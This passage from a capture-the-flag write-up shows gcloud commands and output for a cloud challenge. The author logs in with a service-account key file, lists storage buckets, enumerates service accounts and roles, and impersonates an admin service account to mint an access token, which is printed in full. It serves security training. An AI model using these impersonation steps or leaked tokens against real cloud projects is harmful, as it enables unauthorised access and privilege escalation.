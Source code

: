#### Then actually login

```bash
gcloud auth activate-service-account --key-file=/home/kali/Desktop/ctfFolders/CyberGames2023/cloudStorage/lateral-replica-423406-n3-f892e5bfb33b.json

gcloud config set project lateral-replica-423406-n3

gsutil ls
gs://uscg-2024-bgr-cat-pictures/
gs://uscg-2024-bgr-flags/

gsutil ls gs://uscg-2024-bgr-flags/
gs://uscg-2024-bgr-flags/flag.txt <--- so close.. but no access



gcloud iam service-accounts list

DISPLAY NAME           EMAIL                                                                    DISABLED
admin-service-account  admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com  False
user-service-account   user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com   False
```

- check for service account impersonation 

```bash
gcloud config set account user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com
gcloud config set project lateral-replica-423406-n3


gcloud iam roles list --project lateral-replica-423406-n3

---
etag: BwYYef-3SNU=
name: projects/lateral-replica-423406-n3/roles/impersonate_admin
title: impersonate_admin
---
description: users can do some things!
etag: BwYYekyQ090=
name: projects/lateral-replica-423406-n3/roles/user_account_permissions
title: user_account_permissions


gcloud auth print-access-token --impersonate-service-account=admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com

WARNING: This command is using service account impersonation. All API calls will be executed as [admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com].
ya29.c.c0AY_VpZiLgt3R41Ji6gYsnfnBrb0znU3v14irMm37zf3lVxnpqzQ7aah1AUFON0Hi-junZ6NkFfEJEFLwCkMyKr5-eouKTTZZ55LF2r4_w9cBUZLwvxxllwNXg4jcYEz9DHGkSgwyGqd9Tw1Yd4tCggqxMI6INgH3Gt4oxV62kj2yNGIKhYr1Qg5BIqSK7I4ksifBv376h53OR5stOfNxPpijc8SHyGMTBFSMMm9vR-UL4ktXaquXaTzbRhGvF5GmV-GyIfZZ0HVDyGA7ksIYpgk4s9tKp7b7OKaD11Vmu-lridgf8adxiEFebHfuc4rAu0if8xk-n8Ajw-gPxs9EYwWeNHAfwWZIErmXvgiuXiRfYHNd-eEE-hixeRMAhLoPIZibiEsnZsQyHLVZWSrM4Q3Wsq1ys9f_1XoSzaEweADuY3XWNCzyYxFe8mXAEpgoVkAJoLyMrspHlDToB-43xrTTUHNURq80lNkvv1RidqfypCM4PnuyL-aGvbcqUuz9BOYWuDO5xy2NsX1-6W2qRbPtUL0HWGSVLEaQD9f_KsXLCu2KI3YYy9Z0Qm3K5nIq1b3B4bmiR4kmIG-gHA24HSuWASsRYHgs-QIIlUGobf9DAssYImcT636CM8RcXY3abj0psugVoB70Qz1cgXe9UIsu0MWYlkX_1nsgUm2yJm-O5l4J8FZuO4njvXyiZsYWOxtmR471Y6sjpVdBxw2u_xQ6bb1nq40R0Baqd2b9q82UilibckyX4yRtRUWto2p96r-X-pcmlkIbti0g9tz33QbXo2e-7nlgQuWRb2wI9hJSv7xOWuOmo_3mv20f7lk1417JrSz7FQe8xvqYtfnhBwlaMcOeoIX6MI920kOI6aZsZpX2ysqvJQ3lcQwVi62sh_uIojzO2w_1Y2Vfj2MJV97h3i3Z-mt6exZSa8UwX0kU_x7iBU1eyaymgJRt6Oh4jr_4dxoOok6nMsV28WQ8SJ45cImebJcq-p9cUm0FaOwSYO2b-t5o8UF


```